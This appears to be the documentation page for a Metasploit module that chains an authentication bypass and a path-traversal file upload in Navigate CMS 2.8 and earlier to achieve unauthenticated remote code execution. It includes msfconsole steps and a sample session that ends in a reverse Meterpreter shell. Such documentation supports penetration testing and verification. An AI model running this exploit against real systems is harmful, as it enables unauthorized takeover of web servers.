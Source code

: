 ## Description

This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication.
It then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations.
Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely.

This module was tested against Navigate CMS 2.8.

## Verification Steps

[Navigate CMS 2.8](https://master.dl.sourceforge.net/project/navigatecms/releases/navigate-2.8r1302.zip)

## Verification Steps

1. Install Navigate CMS
2. Start `msfconsole`
3. `use exploit/multi/http/navigate_cms_rce`
4. `set RHOST <rhost>`
5. `check`
6. You should see `The target appears to be vulnerable.`
7. `exploit`
8. You should get a meterpreter session

## Scenarios

### Navigate CMS on Ubuntu 18.04

```
msf5 > use exploit/multi/http/navigate_cms_rce
msf5 exploit(multi/http/navigate_cms_rce) > set RHOST 192.168.178.45
RHOST => 192.168.178.45
msf5 exploit(multi/http/navigate_cms_rce) > check
[*] 192.168.178.45:80 The target appears to be vulnerable.
msf5 exploit(multi/http/navigate_cms_rce) > exploit

[*] Started reverse TCP handler on 192.168.178.35:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (37775 bytes) to 192.168.178.45
[*] Meterpreter session 1 opened (192.168.178.35:4444 -> 192.168.178.45:52720) at 2018-09-26 22:24:59 +0200

meterpreter > 
```
